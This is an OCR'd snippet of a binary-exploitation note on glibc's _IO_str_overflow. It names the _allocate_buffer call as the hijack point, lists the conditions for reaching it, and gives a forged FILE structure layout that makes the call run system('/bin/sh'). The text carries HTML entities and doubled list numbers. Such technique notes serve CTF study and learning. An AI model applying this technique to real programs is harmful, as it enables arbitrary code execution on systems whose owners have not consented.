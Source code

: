 ```c
	}

    }



  if (!flush_only)

    *fp->_IO_write_ptr++ = (unsigned char) c;

  if (fp->_IO_write_ptr > fp->_IO_read_end)

    fp->_IO_read_end = fp->_IO_write_ptr;

  return c;

}

libc_hidden_def (_IO_str_overflow)



```



Use the following code to hijack the program flow


```c

	  new_buf

	    = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);

```



Several conditions bypass:


1. `1. fp-&gt;_flags &amp; _IO_NO_WRITES is false
2. `2. (pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))`

3. `3. fp-&gt;_flags &amp; _IO_USER_BUF(0x01) is false.
4. `4. 2*(fp-&gt;_IO_buf_end - fp-&gt;_IO_buf_base) + 100 cannot be negative
5. `5. new_size = 2 * (fp-&gt;_IO_buf_end - fp-&gt;_IO_buf_base) + 100; should point to the address corresponding to the /bin/sh string.
6. `6. fp+0xe0 points to the system address.


structure:


```

_flags = 0

_IO_write_base = 0

_IO_write_ptr = (binsh_in_libc_addr -100) / 2 +1

_IO_buf_end = (binsh_in_libc_addr -100) / 2 



_freeres_list = 0x2
_freeres_buf = 0x3
```
